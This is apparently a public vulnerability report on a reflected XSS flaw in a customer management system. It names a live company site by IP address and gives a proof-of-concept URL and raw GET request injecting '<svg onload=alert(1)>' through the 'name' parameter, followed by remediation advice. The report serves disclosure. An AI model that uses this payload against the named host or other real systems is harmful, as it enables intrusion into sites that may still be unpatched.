

# xss vulnerability exists in the customer management system

### 企业官网(Enterprise official website)：

http://114.55.95.178:802/

### 危害描述(Vulnerability description)：

**XSS vulnerabilities** allow attackers to inject malicious scripts into web pages, stealing sensitive data, manipulating content, or performing unauthorized actions.

### 漏洞细节(Vulnerability details)：

http://XXXXX/?begindate=zth17&button=gt8h2&csrf_token=jy9x5&enddate=jqso9&immagine=uhoe0&key=y8db8&keywords=mlkz6&lang=dner4&list_type=d5ph4&month=wxiq8&name=%3Csvg%20onload=alert(1)%3E//&pass=vf9j0&password=z1dc5&q=qgzm9&region=saox8&text=rwgx8&tid=pyz20&token=adds8&uid=ki093&year=hi844

```
GET /?begindate=zth17&button=gt8h2&csrf_token=jy9x5&enddate=jqso9&immagine=uhoe0&key=y8db8&keywords=mlkz6&lang=dner4&list_type=d5ph4&month=wxiq8&name=<svg onload=alert(1)>//&pass=vf9j0&password=z1dc5&q=qgzm9&region=saox8&text=rwgx8&tid=pyz20&token=adds8&uid=ki093&year=hi844 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 11_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept-Charset: utf-8
Cookie: somecookie
Accept-Encoding: gzip
```




### 修复建议(Repair suggestion)：

**Remediation suggestions** include strict input validation and output encoding, using Content Security Policy (CSP) to restrict script sources, and leveraging built-in security features of modern frameworks.

